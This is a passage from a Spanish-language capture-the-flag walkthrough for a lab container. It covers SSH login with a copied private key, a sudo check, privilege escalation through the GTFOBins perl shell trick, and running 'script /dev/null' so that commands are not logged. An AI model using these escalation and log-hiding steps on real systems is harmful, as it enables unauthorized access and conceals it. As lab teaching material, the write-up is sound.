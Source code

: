 Una vez copiada la llave privada, se debe otorgar permisos de acceso al archivo id_rsa, el número 600 indica que se tienen permisos de lectura y escritura, para luego acceder a través de ssh con el siguiente comando (recordar que vaxei es el usuario que logramos obtener anteriormente):
```bash
chmod 600 id_rsa

ssh -i id_rsa vaxei@172.17.0.2
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.12.25-amd64 x86_64)  
  
* Documentation:  https://help.ubuntu.com  
* Management:     https://landscape.canonical.com  
* Support:        https://ubuntu.com/pro  
  
This system has been minimized by removing packages and content that are  
not required on a system that users do not log into.  
  
To restore this content, you can run the 'unminimize' command.  
Last login: Sat Aug 10 02:25:09 2024 from 172.17.0.1  
vaxei@8ed499a601f1:~$ ls  
file.txt  
vaxei@8ed499a601f1:~$ cat file.txt    
kflksdfsad  
asdsadsad  
asdasd
```

Como podemos ver, no hay nada importante aquí. Por lo que procedemos a usar el comando `sudo -l` para ver cómo escalar privilegios como Luisillo.
```bash
sudo -l  
Matching Defaults entries for vaxei on 8ed499a601f1:  
   env_reset, mail_badpass,  
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty  
  
User vaxei may run the following commands on 8ed499a601f1:  
   (luisillo) NOPASSWD: /usr/bin/perl

```

Debemos dirigirnos a la página https://gtfobins.github.io/gtfobins/perl/#sudo para saber cómo hacer el escalado. En este caso, se ocupa el siguiente comando:
```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/sh";'  
$ whoami
luisillo
```

Para evitar que los comandos se registren se debe volver a iniciar la shell:
```bash
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
```
